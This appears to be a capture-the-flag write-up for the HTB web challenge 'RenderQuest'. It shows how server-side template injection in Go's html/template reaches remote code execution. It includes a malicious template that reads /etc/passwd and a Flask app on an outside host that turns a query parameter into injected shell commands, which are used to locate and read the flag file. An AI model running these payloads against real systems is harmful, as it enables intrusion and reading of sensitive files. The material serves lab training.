 # HTB-Challenges-Web-RenderQuest

## Challenge Description
You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!

![localhost_1337_render_page=index tpl](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/34b7c072-9193-45bc-863f-accc84062311)

## Reconnaissance
At first glance, the application did not seem very intuitive to me. Furthermore, all the application codes were contained in a single file, making it quite intimidating. However, upon carefully reading the text within the application, I realized that the application could supply specific data to a given template. Once I grasped this concept, I understood how to exploit the application—specifically, through Remote Code Execution (RCE) via Server-Side Template Injection (SSTI).

While going through the code, two notable functions made it more evident that SSTI is the vulnerability to exploit. The first one is `FetchServerInfo`. This function strongly suggests RCE as it runs shell scripts. The other one is `isSubdirectory`, which makes it difficult, if not impossible, to perform directory traversal and gain access to the flag.

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```

```
func isSubdirectory(basePath, path string) bool {
	rel, err := filepath.Rel(basePath, path)
	if err != nil {
		return false
	}
	return !strings.HasPrefix(rel, ".."+string(filepath.Separator))
}
```

The template engine used is `html/template`, with which I am not familiar. Consequently, I immediately turned to Google and conducted a search for "Golang html/template vulnerabilities", leading me to this insightful blog post: https://www.onsecurity.io/blog/go-ssti-method-research/. From there, I acquired knowledge on how to access the properties of the object supplied to the template. Additionally, I discovered that I can execute methods from the template using the following notation: `{{.MethodName "args"}}`.

Luckily for me, the object that gets supplied to the template is the one that can invoke `FetchServerInfo`. So the next thing to do is to test this concept.

## Scanning
Next, I need to show that I can make a simple example to prove I can run any code using a malicious template. I'm creating a file named `evil.tpl` and hosting it locally using `python3 -m http.server`. The template is now accessible on any interface at port 8000. As I'm utilizing Docker to test the application, I'm using the IP assigned to my Docker interface — http://172.28.80.1:8000/evil.tpl.

```tpl
<p>{{.ClientIP}}</p>
<p>{{.ClientUA}}</p>
<p>{{.FetchServerInfo "cat /etc/passwd"}}</p>
```

The following step involves entering the link to the "evil" template into the application's user input.

![localhost_1337_render_use_remote=true page=http___172 28 80 1_8000_evil tpl](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/342f376b-1095-4217-be01-49d1fa9c3505)

## Exploitation
Based on my prior experience with a different system, I held the belief that establishing a connection back to my local server might not be feasible. As a solution, I set up a Flask application on https://www.pythonanywhere.com/ designed to provide a template customized for accepting commands through query parameters. This allows me to issue any valid commands without the need to alter the server codes.

```py
from flask import Flask, Response, request

app = Flask(__name__)

@app.route('/')
def rce():
    cmd = request.args.get("cmd")
    payload = '{{.FetchServerInfo "' + cmd + '"}}'
    mimetype = 'application/vnd.groove-tool-template'
    return Response(payload, mimetype=mimetype)


# https://<user>.pythonanywhere.com/?cmd=<shell commands here>
```

Let's check the files in the current directory by using the application's form input: `https://<user>.pythonanywhere.com/?cmd=ls+.`.

![localhost_1337_render_use_remote=true page=https___user pythonanywhere com__cmd=ls+](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/8f8162e0-a07e-44de-a2ad-84fada2a47a0)

The flag isn't here, so let's navigate one level up: `https://<user>.pythonanywhere.com/?cmd=ls+..`.

![localhost_1337_render_use_remote=true page=https___user pythonanywhere com__cmd=ls+](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/f12b351e-4de6-4fb3-9af4-e8feba220bbf)

I've located the flag! It's important to mention that the flag name may differ, so exploring through the system is the key to finding it. Now, the final step is to reveal its content using `https://<user>.pythonanywhere.com/?cmd=cat+../flag7775f83d88.txt`.

![localhost_1337_render_use_remote=true page=https___user pythonanywhere com__cmd=cat+ _flag7775f83d88 txt](https://github.com/patzj/HTB-Challenges-Web-RenderQuest/assets/10325457/880d976e-09f8-4832-87fc-ff8bbc55ca4c)

Flag successfully captured!

## Post-Exploitation
While I didn't achieve a reverse shell, the capability to execute shell commands on the target system via query parameters is essentially a form of reverse shell. This poses a significant security risk, as malicious actors could exploit this functionality for various nefarious activities.

Despite my experience in Golang, the revelation of its native template engine is new to me. While I find it impressive, it becomes susceptible to security vulnerabilities, especially when the object passed to the template has methods that accept parameters. While this feature is interesting from a programming language perspective, I don't highly recommend its use due to the potential for abuse.
